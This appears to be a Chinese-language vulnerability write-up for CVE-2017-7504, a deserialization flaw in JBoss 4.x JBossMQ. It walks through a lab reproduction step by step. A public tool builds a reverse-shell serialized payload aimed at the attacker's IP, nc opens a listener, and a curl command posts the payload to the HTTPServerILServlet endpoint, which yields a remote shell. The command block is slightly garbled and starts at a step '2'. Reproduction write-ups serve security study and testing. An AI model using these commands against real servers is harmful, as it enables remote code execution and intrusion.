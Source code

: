 # （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Jboss/（CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞.html](http://book.iwonder.run/0day/Jboss/（CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞.html)

## 一、漏洞简介

JBoss AS 4.x 及之前版本中，JbossMQ 实现过程的 JMS over HTTP Invocation Layer 的 HTTPServerILServlet.java 文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、漏洞影响

JBoss AS 4.x 及之前版本

## 三、复现过程

win7 一台，ip 为 172.26.1.127（靶机，安装了 java 环境）

kali 一台，ip 为 192.168.1.192(攻击机)

输入[http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet](http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet)，如果显示下图，则可能存在漏洞

![image](img/b3790afcf457c9cdd1506b76073a3c0a.png)

进入 kali 攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
2 继续执行命令:
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP 是攻击机 ip,4444 是要监听的端口) 
```

新界面开启 nc 准备接收反弹过来的 shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了，执行命令:

```
curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](img/5a85f839854c95d75c565db1827e69ca.png)

回到 nc 界面，发现 shell 已经反弹回来了

![image](img/fb7442423e71fe99896f852b6f7caca1.png)

